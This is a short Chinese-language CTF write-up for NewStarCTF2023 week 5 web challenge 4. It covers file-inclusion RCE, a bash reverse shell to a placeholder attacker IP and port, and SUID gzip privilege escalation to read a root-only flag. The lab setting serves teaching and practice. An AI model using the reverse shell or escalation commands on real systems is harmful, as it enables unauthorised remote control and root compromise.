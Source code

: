 ```yaml
---
title: NewStarCTF2023 week5 web 4-复盘
date: 2023-11-2 16:17 +0800
categories: [CTF,WEB]
tags: [web]
img_path: /assets/images/
---
```




通过提示得到账号密码

best_admin
so_hard_password

和主页存在文件包含rce漏洞

![image-20231102160836752](4-复盘.assets/image-20231102160836752.png)‘



和newstar 之前两道题目一模一样，一步的lfl+rce 和 linux 提权

![image-20231102160937766](4-复盘.assets/image-20231102160937766.png)



这个靶机有点问题，哥斯拉不是很好用，我们反弹shell到 公网服务器上

```
bash -i >& /dev/tcp/攻击机IP/端口 0>&1
```

**![image-20231102161238097](4-复盘.assets/image-20231102161238097.png)**

老套路，只能root权限才能查看flag文件，提权

还是查看suid位

![image-20231102161400877](4-复盘.assets/image-20231102161400877.png)

gzip 查看flag

```
sudo install -m =xs $(which gzip) .

LFILE=file_to_read
./gzip -f $LFILE -t
```



![image-20231102161124753](4-复盘.assets/image-20231102161124753.png)

成功解出

![image-20231102161515150](4-复盘.assets/image-20231102161515150.png)